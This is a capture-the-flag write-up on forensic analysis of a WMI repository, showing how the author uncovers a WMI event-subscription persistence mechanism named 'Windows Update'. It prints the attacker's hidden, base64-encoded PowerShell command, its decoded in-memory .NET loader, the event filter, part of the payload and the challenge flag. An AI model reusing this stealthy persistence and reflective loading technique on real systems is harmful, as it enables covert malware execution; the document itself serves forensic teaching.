



# HTB Business CTF 2022 - Perseverance

## Challenge

> During a recent security assessment of a well-known consulting company, the competent team found some employees' credentials in publicly available breach databases. Thus, they called us to trace down the actions performed by these users. During the investigation, it turned out that one of them had been compromised. Although their security engineers took the necessary steps to remediate and secure the user and the internal infrastructure, the user was getting compromised repeatedly. Narrowing down our investigation to find possible persistence mechanisms, we are confident that the malicious actors use WMI to establish persistence. You are given the WMI repository of the user's workstation. Can you analyze and expose their technique?

- [forensics_perseverance.zip](files/forensics_perseverance.zip)
  - `INDEX.BTR`
  - `MAPPING1.MAP`
  - `MAPPING2.MAP`
  - `MAPPING3.MAP`
  - `OBJECTS.DATA`

### Metadata

- Difficulty: `easy`
- Tags: `wmi`, `powershell`, `persistence`, `dotnet`
- Points: `325`
- Number of solvers: `tbd`

## Solution

### Parsing the repository

We are given a WMI repository, which is usually located in `%windir%\System32\Wbem\Repository`.

Let's try to find online tools which can parse a WMI repository.

We can try the following tools:

- <https://github.com/davidpany/WMI_Forensics>
- <https://github.com/woanware/wmi-parser>

After rewriting the first tool to Python3, it gives the following output on `OBJECTS.DATA`:



It finds two `FilterToConsumerBindings`, but does not give further details.

Let's try the other one. 

**During the CTF, I executed these tools in our malware analysis laboratory ([Kaibou Lab](https://ukatemi.com/products/kaibou/)), because I didn't want to trust a random EXE from GitHub.**



We have some PowerShell code, yay!

```powershell
cmd /C powershell.exe -Sta -Nop -Window Hidden -enc JABmAGkAbABlACAAPQAgACgAWwBXAG0AaQBDAGwAYQBzAHMAXQAnAFIATwBPAFQAXABjAGkAbQB2ADIAOgBXAGkAbgAzADIAXwBNAGUAbQBvAHIAeQBBAHIAcgBhAHkARABlAHYAaQBjAGUAJwApAC4AUAByAG8AcABlAHIAdABpAGUAcwBbACcAUAByAG8AcABlAHIAdAB5ACcAXQAuAFYAYQBsAHUAZQA7AHMAdgAgAG8AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABJAE8ALgBNAGUAbQBvAHIAeQBTAHQAcgBlAGEAbQApADsAcwB2ACAAZAAgACgATgBlAHcALQBPAGIAagBlAGMAdAAgAEkATwAuAEMAbwBtAHAAcgBlAHMAcwBpAG8AbgAuAEQAZQBmAGwAYQB0AGUAUwB0AHIAZQBhAG0AKABbAEkATwAuAE0AZQBtAG8AcgB5AFMAdAByAGUAYQBtAF0AWwBDAG8AbgB2AGUAcgB0AF0AOgA6AEYAcgBvAG0AQgBhAHMAZQA2ADQAUwB0AHIAaQBuAGcAKAAkAGYAaQBsAGUAKQAsAFsASQBPAC4AQwBvAG0AcAByAGUAcwBzAGkAbwBuAC4AQwBvAG0AcAByAGUAcwBzAGkAbwBuAE0AbwBkAGUAXQA6ADoARABlAGMAbwBtAHAAcgBlAHMAcwApACkAOwBzAHYAIABiACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAQgB5AHQAZQBbAF0AKAAxADAAMgA0ACkAKQA7AHMAdgAgAHIAIAAoAGcAdgAgAGQAKQAuAFYAYQBsAHUAZQAuAFIAZQBhAGQAKAAoAGcAdgAgAGIAKQAuAFYAYQBsAHUAZQAsADAALAAxADAAMgA0ACkAOwB3AGgAaQBsAGUAKAAoAGcAdgAgAHIAKQAuAFYAYQBsAHUAZQAgAC0AZwB0ACAAMAApAHsAKABnAHYAIABvACkALgBWAGEAbAB1AGUALgBXAHIAaQB0AGUAKAAoAGcAdgAgAGIAKQAuAFYAYQBsAHUAZQAsADAALAAoAGcAdgAgAHIAKQAuAFYAYQBsAHUAZQApADsAcwB2ACAAcgAgACgAZwB2ACAAZAApAC4AVgBhAGwAdQBlAC4AUgBlAGEAZAAoACgAZwB2ACAAYgApAC4AVgBhAGwAdQBlACwAMAAsADEAMAAyADQAKQA7AH0AWwBSAGUAZgBsAGUAYwB0AGkAbwBuAC4AQQBzAHMAZQBtAGIAbAB5AF0AOgA6AEwAbwBhAGQAKAAoAGcAdgAgAG8AKQAuAFYAYQBsAHUAZQAuAFQAbwBBAHIAcgBhAHkAKAApACkALgBFAG4AdAByAHkAUABvAGkAbgB0AC4ASQBuAHYAbwBrAGUAKAAwACwAQAAoACwAWwBzAHQAcgBpAG4AZwBbAF0AXQBAACgAKQApACkAfABPAHUAdAAtAE4AdQBsAGwA
```

Some WMI persistence notes:
- To automatically execute a program/command in case of an event in WMI we need a `WMIEventConsumer`, a `WMIEventFilter` and we need to bind these two.
- In the current case the consumer is a `CommandLineEventConsumer`.
> The CommandLineEventConsumer class runs a specified executable program from a command line when a specified event occurs. This class is a standard event consumer that WMI provides: [reference](https://docs.microsoft.com/en-us/windows/win32/wmisdk/running-a-program-from-the-command-line-based-on-an-event)
- In the current case the filter is a WQL query: 
```sql
SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System' AND TargetInstance.SystemUpTime >= 120 AND TargetInstance.SystemUpTime < 325
```
  - This means that the consumer is executed if there is a change in the `Win32_PerfFormattedData_PerfOS_System` instance (once in a minute) and its `SystemUpTime` property is between 120 and 325 sec. So if I'm right, the command is executed 3 or 4 times.
- Other useful links:
  - <https://medium.com/threatpunter/detecting-removing-wmi-persistence-60ccbb7dff96>
  - <https://learn-powershell.net/2013/08/14/powershell-and-events-permanent-wmi-event-subscriptions/>
  - <https://docs.microsoft.com/en-us/previous-versions/aa394272(v=vs.85)>
  - <https://docs.microsoft.com/en-us/windows/win32/wmisdk/--instancemodificationevent>

### Analysing the persisted code

If we `base64` decode and `UTF-16` decode the command, we get the following:

```powershell
$file = ([WmiClass]'ROOT\cimv2:Win32_MemoryArrayDevice').Properties['Property'].Value;
sv o (New-Object IO.MemoryStream);
sv d (New-Object IO.Compression.DeflateStream([IO.MemoryStream][Convert]::FromBase64String($file),[IO.Compression.CompressionMode]::Decompress));
sv b (New-Object Byte[](1024));
sv r (gv d).Value.Read((gv b).Value,0,1024);
while((gv r).Value -gt 0){
	(gv o).Value.Write((gv b).Value,0,(gv r).Value);
	sv r (gv d).Value.Read((gv b).Value,0,1024);
}
[Reflection.Assembly]::Load((gv o).Value.ToArray()).EntryPoint.Invoke(0,@(,[string[]]@()))|Out-Null
```

This PowerShell script reads the static property `Property` of a custom WMI class `Win32_MemoryArrayDevice`. It `base64` decodes it and decompresses it with `Deflate`. `sv` is `Set-Value` and `gv` is `Get-Value`. While it can read from the `d` byte array it reads 1024 bytes and writes it to the `o` `MemoryStream`. After all bytes are copied to the `MemoryStream` it loads it into memory as an executable and starts executing its entry point.

Unfortunately, we cannot simply execute the above code and just write the content of the `MemoryStream` to disk, because the first line reads from to local system's WMI repository and not the given one. **In the end of this write-up I present a technique on how to bypass this and execute this script.**

### Use `strings` lol

Here comes and idea: If the original byte of the executable is stored in an `base64` encoded format and usually executables are at least a few 100-1000 bytes, then we must find a large `base64` string in the given repository files.

```
$ strings -n 3000 OBJECTS.DATA
7Vp9cFzVdT/37e7b1dpa662slS1L8tpC9uoTfdqW4xhLsmQJJGHrwx8UYq92n6TFq33Le7u2ZI8T07QESmggzRedkgSYTpIZQsMEJiFpS2hIp07KlAHSCQ0hdj4mZeAPIP0gtLH7O/e9Xe1aEiT9J5OZ7Pqde77uueece87Vu5JHb7qXXETkxnPlCtHXyf7so/f+nMcT2PyNAD1e8uyWr4uRZ7dMziWscNo0Zs3ofDgWTaWMTHhaD5vZVDiRCu+/cSI8b8T11tJS/zWOjYMDRCNCoQtNj0/n7F6krbRGtBE1glBs3neHAMJ4TjjehW2Z25mTG6VTzhyF
[...]
```

The full output is in [malware.b64](files/malware.b64).

Unfortunately, there's no easy way to use the `Deflate` compression in Linux (not like a simple `base64`). But we can execute the above PowerShell script by replacing the `$file` with our `base64` string and printing `(gv o).Value.ToArray()` at the end without loading and executing the code.

Now, we have the integer representation of the bytes of the executable, but we are happy because it starts with `MZ` (`70` and `90`):

```
77
90
144
0
3
0
0
0
4
0
[...]
```

We can convert this to an executable with `Python`:

```python
pe = b''
with open('malware.ints') as f:
    for b in f:
        pe += int(b.strip()).to_bytes(1, 'little')
with open('malware', 'wb') as outfile:
    outfile.write(pe)
```

```bash
$ file malware 
malware: PE32 executable (GUI) Intel 80386 Mono/.Net assembly, for MS Windows
```

It's .NET, ezpz!

### Reversing the malware

Let's load the executable in `DNSpy` or `ILSpy`.



We can start understanding the malware or we can just start decoding the `base64` strings. The `stringBuilder` is later used as an AES key, let's try that:

```
$ echo "SFRCezFfdGgwdWdodF9XTTFfdzRzX2p1c3RfNF9NNE40ZzNtM250X1QwMGx9" | base64 -d
HTB{1_th0ught_WM1_w4s_just_4_M4N4g3m3nt_T00l}
```

Flag: `HTB{1_th0ught_WM1_w4s_just_4_M4N4g3m3nt_T00l}`

## Extra

An other option to solve this challenge is to replace the WMI repository of a normal Windows machine with the received files and use PowerShell or `wmic` to query the persistence mechanisms. For this I used [Kaibou Lab](https://ukatemi.com/products/kaibou/) again, because I didn't no exactly what the injected malware does.

To replace the WMI repository, the following has to be done:
1. Stopping the `winmgmt` service, otherwise the old files cannot be removed, because they are used. Use `services.msc` for this and find `Windows Management Instrumentation`.
2. Replacing the repository at `C:\Windows\System32\wbem\repository`.
3. Restart the `winmgmt` service.

Now we can use `PowerShell`:

```
PS C:\Users\user\Desktop> Get-WmiObject -Namespace root\Subscription -Class __EventFilter                               

__GENUS          : 2
__CLASS          : __EventFilter
__SUPERCLASS     : __IndicationRelated
__DYNASTY        : __SystemClass
__RELPATH        : __EventFilter.Name="Windows Update"
__PROPERTY_COUNT : 6
__DERIVATION     : {__IndicationRelated, __SystemClass}
__SERVER         : DESKTOP-ABCDEF
__NAMESPACE      : ROOT\Subscription
__PATH           : \\DESKTOP-ABCDEF\ROOT\Subscription:__EventFilter.Name="Windows Update"
CreatorSID       : {1, 5, 0, 0...}
EventAccess      :
EventNamespace   : root\cimv2
Name             : Windows Update
Query            : SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedDat
                   a_PerfOS_System' AND TargetInstance.SystemUpTime >= 120 AND TargetInstance.SystemUpTime < 325
QueryLanguage    : WQL
PSComputerName   : DESKTOP-ABCDEF

PS C:\Users\user\Desktop> Get-WmiObject -Namespace root\Subscription -Class __EventConsumer

__GENUS               : 2
__CLASS               : CommandLineEventConsumer
__SUPERCLASS          : __EventConsumer
__DYNASTY             : __SystemClass
__RELPATH             : CommandLineEventConsumer.Name="Windows Update"
__PROPERTY_COUNT      : 27
__DERIVATION          : {__EventConsumer, __IndicationRelated, __SystemClass}
__SERVER              : DESKTOP-ABCDEF
__NAMESPACE           : ROOT\Subscription
__PATH                : \\DESKTOP-ABCDEF\ROOT\Subscription:CommandLineEventConsumer.Name="Windows Update"
CommandLineTemplate   : cmd /C powershell.exe -Sta -Nop -Window Hidden -enc JABmAGkAbABlACAAPQAgACgAWwBXAG0AaQBDAGwAYQB
                        zAHMAXQAnAFIATwBPAFQAXABjAGkAbQB2ADIAOgBXAGkAbgAzADIAXwBNAGUAbQBvAHIAeQBBAHIAcgBhAHkARABlAHYAaQ
                        BjAGUAJwApAC4AUAByAG8AcABlAHIAdABpAGUAcwBbACcAUAByAG8AcABlAHIAdAB5ACcAXQAuAFYAYQBsAHUAZQA7AHMAd
                        gAgAG8AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABJAE8ALgBNAGUAbQBvAHIAeQBTAHQAcgBlAGEAbQApADsAcwB2ACAA
                        ZAAgACgATgBlAHcALQBPAGIAagBlAGMAdAAgAEkATwAuAEMAbwBtAHAAcgBlAHMAcwBpAG8AbgAuAEQAZQBmAGwAYQB0AGU
                        AUwB0AHIAZQBhAG0AKABbAEkATwAuAE0AZQBtAG8AcgB5AFMAdAByAGUAYQBtAF0AWwBDAG8AbgB2AGUAcgB0AF0AOgA6AE
                        YAcgBvAG0AQgBhAHMAZQA2ADQAUwB0AHIAaQBuAGcAKAAkAGYAaQBsAGUAKQAsAFsASQBPAC4AQwBvAG0AcAByAGUAcwBzA
                        GkAbwBuAC4AQwBvAG0AcAByAGUAcwBzAGkAbwBuAE0AbwBkAGUAXQA6ADoARABlAGMAbwBtAHAAcgBlAHMAcwApACkAOwBz
                        AHYAIABiACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAQgB5AHQAZQBbAF0AKAAxADAAMgA0ACkAKQA7AHMAdgAgAHIAIAA
                        oAGcAdgAgAGQAKQAuAFYAYQBsAHUAZQAuAFIAZQBhAGQAKAAoAGcAdgAgAGIAKQAuAFYAYQBsAHUAZQAsADAALAAxADAAMg
                        A0ACkAOwB3AGgAaQBsAGUAKAAoAGcAdgAgAHIAKQAuAFYAYQBsAHUAZQAgAC0AZwB0ACAAMAApAHsAKABnAHYAIABvACkAL
                        gBWAGEAbAB1AGUALgBXAHIAaQB0AGUAKAAoAGcAdgAgAGIAKQAuAFYAYQBsAHUAZQAsADAALAAoAGcAdgAgAHIAKQAuAFYA
                        YQBsAHUAZQApADsAcwB2ACAAcgAgACgAZwB2ACAAZAApAC4AVgBhAGwAdQBlAC4AUgBlAGEAZAAoACgAZwB2ACAAYgApAC4
                        AVgBhAGwAdQBlACwAMAAsADEAMAAyADQAKQA7AH0AWwBSAGUAZgBsAGUAYwB0AGkAbwBuAC4AQQBzAHMAZQBtAGIAbAB5AF
                        0AOgA6AEwAbwBhAGQAKAAoAGcAdgAgAG8AKQAuAFYAYQBsAHUAZQAuAFQAbwBBAHIAcgBhAHkAKAApACkALgBFAG4AdAByA
                        HkAUABvAGkAbgB0AC4ASQBuAHYAbwBrAGUAKAAwACwAQAAoACwAWwBzAHQAcgBpAG4AZwBbAF0AXQBAACgAKQApACkAfABP
                        AHUAdAAtAE4AdQBsAGwA
CreateNewConsole      : False
CreateNewProcessGroup : False
CreateSeparateWowVdm  : False
CreateSharedWowVdm    : False
CreatorSID            : {1, 5, 0, 0...}
DesktopName           :
ExecutablePath        :
FillAttribute         :
ForceOffFeedback      : False
ForceOnFeedback       : False
KillTimeout           : 0
MachineName           :
MaximumQueueSize      :
Name                  : Windows Update
Priority              : 32
RunInteractively      : False
ShowWindowCommand     :
UseDefaultErrorMode   : False
WindowTitle           :
WorkingDirectory      :
XCoordinate           :
XNumCharacters        :
XSize                 :
YCoordinate           :
YNumCharacters        :
YSize                 :
PSComputerName        : DESKTOP-ABCDEF

PS C:\Users\user\Desktop> $file = ([WmiClass]'ROOT\cimv2:Win32_MemoryArrayDevice').Properties['Property'].Value
PS C:\Users\user\Desktop> $file
7Vp9cFzVdT/37e7b1dpa662slS1L8tpC9uoTfdqW4xhLsmQJJGHrwx8UYq92n6TFq33Le7u2ZI8T07QESmggzRedkgSYTpIZQsMEJiFpS2hIp07KlAHSCQ0hdj4mZeAPIP0gtLH7O/e9Xe1aEiT9J5OZ7Pqde77uueece87Vu5JHb7qXXETkxnPlCtHXyf7so/f+nMcT2PyNAD1e8uyWr4uRZ7dMziWscNo0Zs3ofDgWTaWM

PS C:\Users\user\Desktop> Get-CimClass -Namespace root\cimv2 -Class Win32_MemoryArrayDevice

   NameSpace: ROOT/cimv2

CimClassName                        CimClassMethods      CimClassProperties
------------                        ---------------      ------------------
Win32_MemoryArrayDevice             {}                   {Property}
```

Pretty awesome!

### Review

Learned a lot again, especially about WMI! Thanks HTB! <3

Btw, the meaning of the name of the challenge ("perseverance") is:

> Persistence in doing something despite difficulty or delay in achieving success.

In Hungarian: `kitartás`

## Files

- [forensics_perseverance.zip](files/forensics_perseverance.zip): Challenge files
  - `INDEX.BTR`
  - `MAPPING1.MAP`
  - `MAPPING2.MAP`
  - `MAPPING3.MAP`
  - `OBJECTS.DATA`
- [malware.b64](files/malware.b64): Base64 encoded persisted malware
- [malware](files/malware): The persisted malware binary